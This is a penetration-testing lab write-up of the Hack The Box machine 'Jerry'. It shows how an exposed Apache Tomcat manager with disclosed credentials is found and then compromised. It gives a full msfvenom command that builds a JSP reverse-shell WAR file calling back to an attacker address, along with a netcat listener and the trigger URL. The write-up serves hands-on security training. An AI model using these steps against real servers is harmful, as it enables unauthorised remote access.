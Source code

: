 [**< back**](/README.md)

# HTB - Jerry

![jerry_banner](/_storage/_img/_pentest_labs/_htb/jerry/jerry_banner.jpg)
**Machine**: Jerry  
**Author**: Nika Kharebava  

## Information Gathering  
### NMap  
:mag: Initial enumeration using Nmap   
![initial_nmap_scan](/_storage/_img/_pentest_labs/_htb/jerry/initial_nmap_scan.png)  
Seems like this one's serving Apache Tomcat/7.0.88 on port 8080  

### Messing around
![tomcat_discovered](/_storage/_img/_pentest_labs/_htb/jerry/tomcat_discovered.png)  
If we try to login... this happens...  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/apache_login.png)  
Credentials get disclosed from configuration file  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/creds_disclosed.png)
At first we can not login into the account with these creds, but if we flush cookies then we are greeted with this manager interface  
![apache_login_success](/_storage/_img/_pentest_labs/_htb/jerry/manager_app_successful_login.png)  
Where we can actually upload  
![war_file_upload](/_storage/_img/_pentest_labs/_htb/jerry/war_file_upload.png)  


### Exploitation :microbe: 
We can gain either a web shell or a reverse shell by generating it using venom as a war payload and uploading it into the manager upload page.

**msfvenom**  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=4444 -f war -o shell.war`

Now we can setup a netcat listener on an attacker machine
`nc -nlvp 4444` 
Then we can just upload the war file into manager interface and surf it on the browser...  
`http://10.129.157.182:8080/shell`  
and we have a connection with nt/authority...  
![shell_gained](/_storage/_img/_pentest_labs/_htb/jerry/shell_gained.png)
